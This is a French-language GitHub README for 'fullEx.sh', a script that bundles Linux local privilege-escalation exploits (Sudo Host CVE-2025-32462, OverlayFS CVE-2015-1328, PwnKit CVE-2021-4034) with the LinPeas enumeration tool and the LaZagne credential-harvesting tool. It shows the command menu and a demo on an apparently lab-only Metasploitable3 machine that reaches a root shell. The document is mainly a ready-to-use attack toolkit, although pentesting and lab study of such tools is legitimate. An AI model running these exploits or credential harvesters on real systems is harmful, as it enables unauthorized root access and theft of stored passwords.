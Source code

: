 # <img width="1335" height="890" alt="image" src="https://github.com/user-attachments/assets/c947aebb-593b-4027-bc50-ac87663ff387" />


Les exploits root & outils dispo :

💀 Sudo Host

💀 OverlayFS

💀 PwnKit

🤖 LinPeas

👾 LaZagne

# ⚙️ Commandes

```
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -help
                                                                                                    
 $$$$$$\            $$\ $$\ $$$$$$$$\           
$$  __$$\           $$ |$$ |$$  _____|          
$$ /  \__|$$\   $$\ $$ |$$ |$$ |      $$\   $$\ 
$$$$\     $$ |  $$ |$$ |$$ |$$$$$\    \$$\ $$  |
$$  _|    $$ |  $$ |$$ |$$ |$$  __|    \$$$$  / 
$$ |      $$ |  $$ |$$ |$$ |$$ |       $$  $$<  
$$ |      \$$$$$$  |$$ |$$ |$$$$$$$$\ $$  /\$$\ 
\__|       \______/ \__|\__|\________|\__/  \__|

               by M0rPH3U53
 
 
Usage: ./fullEx.sh COMMAND
 
Commands:
   -LinPeas       Execute LinPeas
   -LaZagne       Execute LaZagne
   -Overlays      Compilation + execution binaire - CVE-2015-1328
   -PwnKit64/32   PwnKit64/32 - CVE-2021-4034
   -SudoHost      Sudo Hostname - CVE-2025-32462   
   -check         Verifie si gcc est installer
   -perm          Applique les droit d'execution '/fullEx'
   -help          Affiche les commandes
 ```
# 💲 Demo

```
vagrant@metasploitable3-ub1404:~/fullEx$ bash fullEx.sh -perm
vagrant@metasploitable3-ub1404:~/fullEx$ ./fullEx.sh -SudoHost
[+] Sudo Host Bypass Exploit - CVE-2025-32462
[+] Discovered by: Rich Mirch
[+] Exploit by: J3rich0123
[+] Target: Linux x86_64
[+] Starting pseudo-root shell on dev.
[+] Type 'exit' or 'quit' to leave.
[+] For a real shell, type: bash
[+] Or: vim → :!bash to break into a real TTY shell
root@dev# bash -i
root@metasploitable3-ub1404:~/fullEx# id
uid=0(root) gid=0(root) groups=0(root)
```
